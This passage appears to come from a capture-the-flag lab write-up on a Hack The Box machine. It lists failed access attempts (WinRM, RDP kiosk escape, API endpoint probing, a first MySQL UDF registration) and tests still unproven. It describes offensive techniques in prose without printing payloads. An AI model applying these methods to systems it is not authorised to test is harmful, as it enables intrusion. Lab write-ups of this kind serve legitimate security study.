| Requesting `GET /api` without a session | **Did not grant access** | It returned `403 Forbidden` with `Authentication required`. This differs from a redirect, but was not enough on its own to reveal data. |
| Accessing the kiosk on port 5173 from the attacking machine | **Did not work** | The link pointed to `localhost:5173`, indicating that the service was intended to be accessed from the target machine itself; the external connection did not respond. |
| Authenticating through WinRM as `KioskUser` | **Failed with the tested mechanisms** | Port 5985 was reachable, but `Negotiate` did not complete authentication and the server did not have `Basic` enabled. Opening the port and adjusting `TrustedHosts` did not resolve access. |
| Switching users from the RDP client | **Did not work** | Trying `mstsc` parameters, requesting the credentials dialog, using `Ctrl+Alt+End`, checking `cmdkey /list`, and trying `/admin` did not allow escape from the kiosk session or open a different session. |
| Candidate paths `/api/scanner/badge` and `/api/scan/badge` | **Not found** | They did not correspond to real endpoints. `/api/badge` did exist, but redirected to `/login` without a session. |
| First attempt to register the MySQL UDF | **Failed** | The database was not selected correctly, and then the client was left at the interactive prompt, displaying its help instead of executing the statement as expected. Running the command as a single line while selecting `htb_airways` worked. |

### Tests still pending or that must not be treated as proven

- **`/api/badge` with a valid cookie:** it was tested without a session and redirected to `/login`, but the authenticated test remained pending. Therefore, we cannot claim what it returns after login.

- **Uploading a file through `/api/scanner/test-image`:** the observed code suggested that the endpoint accepts a file, but the final exploitation chain did not require proving a malicious upload. The path that did work was turning off the scanner and exploiting the kiosk error.

- **Path enumeration:** paths not found during these tests should not be described as absolutely nonexistent; only the specific results of the requests made can be stated.

- **The differing IP addresses in screenshots:** if a screenshot shows an IP different from `10.129.160.249`, it may be because the machine was restarted and received a different address. The session context should be checked before treating it as a procedural error.